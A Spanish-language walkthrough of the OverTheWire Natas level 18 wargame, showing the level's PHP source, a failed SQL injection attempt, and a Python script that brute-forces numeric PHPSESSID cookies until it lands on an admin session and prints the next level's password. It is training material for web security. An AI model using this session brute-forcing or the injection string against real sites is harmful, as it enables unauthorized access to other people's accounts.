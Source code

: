 #Natas Level 17 → Level 18

Username: natas18

URL:      http://natas18.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas18.natas.labs.overthewire.org** 
- **Usuario    : natas18**
- **Contraseña : xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra dos campons donde tenemos que introducir el **usuario** y la **contraseña** para poder conseguir las credenciales para el nivel **natas19**

```html
Please login with your admin account to retrieve credentials for natas19.
Username: 
Password: 
```

Vamos a ver el código fuente de la prueba:

```php
<? 

$maxid = 640; // 640 should be enough for everyone 

function isValidAdminLogin()                         
{  
    if($_REQUEST["username"] == "admin")              /* This method of authentication appears to be unsafe and has been disabled for now. */ 
    { 
        //return 1; 
    } 

    return 0; 
} 

function isValidID($id) 
{ 
    return is_numeric($id); 
} 

function createID($user) 
{  
    global $maxid; 
    return rand(1, $maxid); 
} 

function debug($msg) 
{
    if(array_key_exists("debug", $_GET)) 
    { 
        print "DEBUG: $msg<br>"; 
    } 
} 

function my_session_start() 
{ 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) 
    { 
    if(!session_start()) 
    { 
        debug("Session start failed"); 
        return false; 
    } 
    else 
    { 
        debug("Session start ok"); 
        if(!array_key_exists("admin", $_SESSION)) 
        { 
          debug("Session was old: admin flag set"); 
          $_SESSION["admin"] = 0; // backwards compatible, secure 
        } 
        return true; 
    } 
    } 

    return false; 
} 

function print_credentials() 
{ 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) 
    { 
      print "You are an admin. The credentials for the next level are:<br>"; 
      print "<pre>Username: natas19\n"; 
      print "Password: <censored></pre>"; 
    } 
    else 
    { 
      print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19."; 
    } 
} 


$showform = true; 
if(my_session_start()) 
{ 
    print_credentials(); 
    $showform = false; 
} 
else 
{ 
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) 
    { 
      session_id(createID($_REQUEST["username"])); 
      session_start(); 
      $_SESSION["admin"] = isValidAdminLogin(); 
      debug("New session started"); 
      $showform = false; 
      print_credentials(); 
    } 
}  

if($showform) 
{ 
?> 

<p> 
Please login with your admin account to retrieve credentials for natas19. 
</p> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 

<? } ?>
```

De todo el código que nos aparece, lo más importante está en la función **print_credentials()** en el que vemo el siguiente código:

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) 
```

Intentamos logearnos con el truco de **SQL Injection** de introducir el usuario **admin** y la contraseña ** ' or '1'='1** pero nos muestra el siguiente mensaje

```html
You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.
```

Observamos como el campo **$_SESSION["admin"] == 1** tiene que estar a valor **1** pero nos encontramos que la función **isValidAdminLogin()** tiene comentado el **return 1** lo que impide poner el valor de 1 en ese campo

```php
function isValidAdminLogin()                         
{  
    if($_REQUEST["username"] == "admin")              /* This method of authentication appears to be unsafe and has been disabled for now. */ 
    { 
        //return 1; 
    } 
    return 0; 
} 
...
 $_SESSION["admin"] = isValidAdminLogin();    
```

Así que vamos a seguir mirando el código fuente para ver como podemos hacerle creer que somos los usuarios **admin**

Vamos a fijarnos en la función **created_ID** y el valor máximo de **$maxid=640**

```php
$maxid = 640; // 640 should be enough for everyone

function createID($user) 
{  
    global $maxid; 
    return rand(1, $maxid); 
} 
```

Esto crea una sesión aleatoria entre 1-640 donde los usuarios podrán ir logeandose. Además de los usuarios, también estará el usuario admin, al que también asignará su **PHPSESSID** correspondiente.

Utilizamos la herramienta **EditThisCookie** Para comprobar que efectivamente se manda un valor numérico en el campo **PHPSESSID** al servidor para que identifique al usuario. 

En este caso nos da un poco igual que usuario y password poner, ya que vamos a intentar acceder al sistema asignando valores entre **1-640** al campo **PHPSESSID** y viendo si nos devuelve el texto **You are an admin** tal y como hemos visto en algún reto anterior.

Para ello vamos a escribir un script en python que nos va a permitir hacer un **request** a la página del reto **Natas18** pasándole como parámetro un **PHPSESSID** con valores entre 1-640.

Lo llamaremos natas18.py

```python
import requests
 
for sessid in range(641):
	r = requests.get('http://natas18.natas.labs.overthewire.org?debug=1', auth=('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), cookies={'PHPSESSID':str(sessid)})
 
	if 'You are an admin' in r.content:
	    print r.content 
	    break
	else:
		print "PHPSESSID -> {0}\t NOPE :( ".format(str(sessid))
```

Y lo ejecutamos a ver si encontramos el **PHPSESSID** que nos devuelva la contraseña para el siguiente nivel.

```html
ikerburguera@:~/Desktop$ python natas18.py
PHPSESSID -> 0	 NOPE :( 
PHPSESSID -> 1	 NOPE :( 
PHPSESSID -> 2	 NOPE :( 
PHPSESSID -> 3	 NOPE :( 
...
PHPSESSID -> 606	 NOPE :( 
PHPSESSID -> 607	 NOPE :( 
PHPSESSID -> 608	 NOPE :( 
PHPSESSID -> 609	 NOPE :( 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
Parece ser que en la **PHPSESSID=610** hemos podido entrar como usuario **ADMIN** :sunglasses: :beers:

**FLAG** = {4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs}




